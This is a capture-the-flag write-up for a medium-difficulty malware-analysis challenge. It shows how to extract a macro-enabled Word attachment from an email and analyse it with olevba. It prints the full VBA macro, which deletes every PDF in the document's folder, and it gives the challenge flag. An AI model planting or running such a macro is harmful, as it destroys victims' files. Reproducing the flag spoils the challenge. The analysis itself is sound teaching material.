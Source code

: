 ```yaml
---
title: "Serie Algebre"
eventName: "Friendly CTF 2024"
category: "Malware Anlysis"
difficulty: "Medium"
points: 416
---
```


# Serie Algebre

## Challenge Descritption

**"DON'T EXECUTE THIS IN A FOLDER CONTAINING IMPORTANT FILES. YOU'VE BEEN WARNED!"** My friend sent me these exercices. For some reason now, all of my academic material is getting deleted. Can you help me inspect the mail he sent me? Flag: Securinets{flag_filesDeletedExtension}

---

## Provided Files:

[Dazou_khouh_Tah_fe_chorba.eml](/assets/serie_algebre/Dazou_khouh_Tah_fe_chorba.eml)

---

## TL;DR
open the .eml file with your email viewer (Outlook...) and extract the .docm file. Using a text editor and decoding the base64 data is also valid.

Download and install the oletools python package
```bash
sudo -H pip install oletools
```
Extract the macro script using this command.

```bash
olevba SerieAlgebre.docm
```

The extracted script deletes every .pdf file in the local directory, and the flag is split in the two vbExclamation calls (message box).

**flag: Securinets{W0nt_Help_Y0u_4nym0re_pdf}**

---

## Initial Analysis

The .eml file (Electronic Mail Format) is an email message file format. This can be opened with an email client like Outlook or, alternatively, with a text editor. Inspecting the email, we found an attached .docm file — a Word document with enabled macros.

![The eml file in outlook.](/assets/friendly/serie_algebre/eml_attach.png)

A .docm file is particularly suspicious in a malware analysis context, as it can contain embedded macros, which are often used to automate tasks. However, in many phishing attacks, attackers embed malicious scripts within these macros **(In Word, you can automate frequently used tasks by creating and running macros. A macro is a series of commands and instructions that you group together as a single command to accomplish a task automatically.)**. 

Opening the file with ms word will be your first intinct and it is solvable with that apprach. Open the document and it's just a normal ms word document. But, if you enable editing, you get this a warning that macros from untrusted sources is disabled by default.

`Microsoft Word disables macros by default for documents from unknown sources, but with a bit of social engineering, users can be convinced to re-enable them.`

![docm file](/assets/friendly/serie_algebre/docm_file.png)

*If you want to enable the macros, just make sure to put the docm in an isolated folder that doesn't contain important files and just follow [these instructions](https://support.microsoft.com/en-us/topic/a-potentially-dangerous-macro-has-been-blocked-0952faa0-37e7-4316-b61d-5b5ed6024216). Make sure to save the file too.*

To view the macros, just head to the view tab, select macros, click on **corrigé** macro and select edit.

![macros script](/assets/friendly/serie_algebre/macros_script.png)

---

## Static Analysis Using Oletools

Opening the .docm file in Microsoft Word is not an optimal approach, especially for Linux users. Instead, we opted for **oletools**, a Python tool for static malware analysis. To extract and analyze macros from the Office document, we used the following command:

```bash
olevba SerieAlgebre.docm
```

We then get the following output

```bash
olevba 0.60.2 on Python 3.11.9 - http://decalage.info/python/oletools
===============================================================================
FILE: SerieAlgebre.docm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word/vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub Corrige()
    Dim folderPath As String
    Dim fileName As String
    Dim fileExtension As String
    Dim fileSystem As Object

    folderPath = ThisDocument.Path

    If folderPath = "" Then
        MsgBox "Save me please... Securinets{W0nt_Help", vbExclamation
        Exit Sub
    End If

    Set fileSystem = CreateObject("Scripting.FileSystemObject")

    fileName = Dir(folderPath & "\*.*")
    Do While fileName <> ""
        fileExtension = LCase(fileSystem.GetExtensionName(fileName))
        If fileExtension = "pdf" Then
            On Error Resume Next
            fileSystem.DeleteFile folderPath & "\" & fileName
            On Error GoTo 0
        End If
        fileName = Dir
    Loop
    Set fileSystem = Nothing
    MsgBox "HHAHHAHA you lost all your pdfss _Y0u_4nym0re}", vbExclamation
End Sub

+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|Suspicious|CreateObject        |May create an OLE object                     |
+----------+--------------------+---------------------------------------------+

```

This script to sumarize, deletes the pdf files stored in the directory that contains the docm file while displaying two message boxes.

The first one **Save me please... Securinets{W0nt_Help** conatains the first part of the flag. It also displays an attempted method by the attacker to make the victim save the file for the script to work correctly.

The second one **HHAHHAHA you lost all your pdfss _Y0u_4nym0re}** contains the second part of the flag.

The main part of the script reads the path of the file, scans the directory for files that have pdf extension, and deletes them.

```bash
fileName = Dir(folderPath & "\*.*")
    Do While fileName <> ""
        fileExtension = LCase(fileSystem.GetExtensionName(fileName))
        If fileExtension = "pdf" Then
            On Error Resume Next
            fileSystem.DeleteFile folderPath & "\" & fileName
            On Error GoTo 0
        End If
        fileName = Dir
    Loop
```

So, finally: **flag: Securinets{W0nt_Help_Y0u_4nym0re_pdf}**